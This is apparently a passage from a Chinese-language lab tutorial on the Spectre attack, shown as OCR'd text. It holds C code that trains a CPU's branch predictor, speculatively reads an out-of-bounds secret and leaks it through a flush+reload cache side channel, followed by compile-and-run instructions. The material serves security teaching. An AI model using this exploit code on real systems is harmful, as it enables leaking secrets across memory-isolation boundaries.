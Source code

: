 ```c
{
	int i;
// Write to array to bring it to RAM to prevent Copy-on-write
	for (i = 0; i < 256; i++) array[i * 4096 + DELTA] = 1;
// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i * 4096 + DELTA]);
}
// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
	if (x <= bound_upper && x >= bound_lower) {
		return buffer[x];
	} else { return 0; }
}
void spectreAttack(size_t index_beyond)
{
	int i;
	uint8_t s;
	volatile int z;
// Train the CPU to take the true branch inside restrictedAccess().
	for (i = 0; i < 10; i++) {
		restrictedAccess(i);
	}
// Flush bound_upper, bound_lower, and array[] from the cache.
	_mm_clflush(&bound_upper);
	_mm_clflush(&bound_lower);
	for (i = 0; i < 256; i++) { _mm_clflush(&array[i * 4096 + DELTA]); }
	for (z = 0; z < 100; z++) { }
	s = restrictedAccess(index_beyond); // MARK 2
	array[s * 4096 + DELTA] += 88; // MARK 3
}
int main() {
	flushSideChannel();
	size_t index_beyond = (size_t)(secret - (char*)buffer); // MARK 4
	printf("secret: %p \n", secret);
	printf("buffer: %p \n", buffer);
	printf("index of secret (out of bound): %ld \n", index_beyond);
	spectreAttack(index_beyond);
	reloadSideChannel();
	return (0);
}
```



保存为`SpectreAttack.c`，然后编译运行。

```
gcc -march=native SpectreAttack.c
```

![image-20220118003958859](spectre.assets/image-20220118003958859.png)
